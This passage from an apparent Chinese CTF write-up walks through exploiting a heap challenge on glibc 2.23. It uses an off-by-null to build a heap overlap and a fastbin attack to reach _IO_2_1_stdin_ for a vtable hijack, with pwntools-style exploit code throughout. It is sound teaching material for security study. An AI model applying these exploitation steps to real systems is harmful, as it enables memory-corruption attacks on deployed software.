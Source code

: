 ⚠️：注意，由于恒定存在一个空字节溢出，会导致我们泄露结束后导致某些`Chunk`的`size`域损坏！

#### 构造`Heap Overlap`

这里我们首先申请三个Chunk：

```
creat(sh,0x100,'Chunk5')
creat(sh,0x68,'Chunk6')
creat(sh,0xF8,'Chunk7')
creat(sh,0x100,'Chunk8') # 用于防止最后一个Chunk被Top Chunk吞并
```

依次释放掉`chunk 5`和`chunk 6`，然后重新申请一个`chunk 6`，触发`Off-by-null`，清除`Chunk 7`的`prev_inuse`位，同时伪造`chunk 7`的`prev_size`为`0x100+0x10+0x68+0x8`，最后释放`chunk 7`。

```
delete(sh,5)
delete(sh,6)
creat(sh,0x68,'A'*0x60 + p64(0x70+0x110))
delete(sh,7)
creat(sh,0x270,'A') # Fake
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-05-26-103929.png)

#### <a class="reference-link" name="Fastbin%20Attack%20&amp;%20%E5%8A%AB%E6%8C%81%20vtable"></a>Fastbin Attack &amp; 劫持 vtable

接下来我们可以进行`Fastbin Attack`了，在这里我们决定使用篡改`_IO_2_1_stdin_`的`vtable`表的方式来完成利用

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-05-26-125146.png)

**⚠️：这里遇到了一个小坑，特此记录下，我们如果要使用`Fastbin Attack`，我们需要在目标地址的头部附加一个`size`，于是我们这里可以使用题目给出的任意地址写来完成，然鹅，我们若传入了一个不合法的地址(没有写权限)，`read`不会抛出异常，而是会直接跳过，那么我们的输入将会残存在缓冲区，而程序在`main`函数是使用`_isoc99_scanf("%d", &amp;usr_choice);`来读取选项的，这导致残存在缓冲区的字符无法被取出，程序将进入死循环！**

我们的核心还是去伪造`vtable`，但是很不幸的，由于`Glibc-2.23`的`vtable`已经加入了只读保护，但我们可以直接自己写一个`fake_vtable`然后直接让`IO`结构体的`vtable`指向我们的`fake_vtable`即可。

首先我们需要在`IO`结构体的上方写一个`size`以便我们进行`Fastbin_Attack`：

```
every_where_edit(sh,str(libc.symbols['_IO_2_1_stdin_'] - 0x8),'x71')
delete(sh,2)
creat(sh,0x120,'A' * 0x100 + p64(0x110) + p64(0x70) + p64(libc.symbols['_IO_2_1_stdin_'] - 0x10))
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-05-26-130335.png)

然后我们只需要伪造并劫持vtable即可
